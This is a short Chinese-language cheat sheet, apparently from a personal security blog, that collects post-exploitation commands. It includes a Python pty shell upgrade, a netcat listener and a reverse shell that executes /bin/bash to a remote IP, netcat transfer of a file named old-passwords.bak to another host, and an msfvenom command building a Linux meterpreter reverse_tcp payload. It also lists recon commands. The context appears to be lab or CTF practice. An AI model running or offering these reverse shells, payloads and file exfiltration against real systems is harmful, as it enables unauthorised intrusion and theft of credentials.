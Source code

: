 ```yaml
---
# 这是页面的图标
icon: page
# 这是文章的标题
title: 会用到的一些命令收集
# 设置作者
author: lhz
# 设置写作时间
time: 2018-10-01
# 一个页面只能有一个分类
category: 安全工具
# 一个页面可以有多个标签
tag:
  - 小命令收集

comment: false
---
```




通过python获取交互shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

nc

```
监听
nc -lvp 4444
回弹
nc -nv 192.168.141.134 4444 -e /bin/bash

使用nc传文件
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

使用python开启web服务

```
python -m SimpleHTTPServer 8090
```

使用mefvenom生成一个可执行的shell

```
msfvenom  -p linux/x86/meterpreter/reverse_tcp  lhost=192.168.42.128 lport=6666 -f elf -o 6666.elf
```

查看linux系统发行版本、内核版本

```
lsb_release -a
uname -a
```

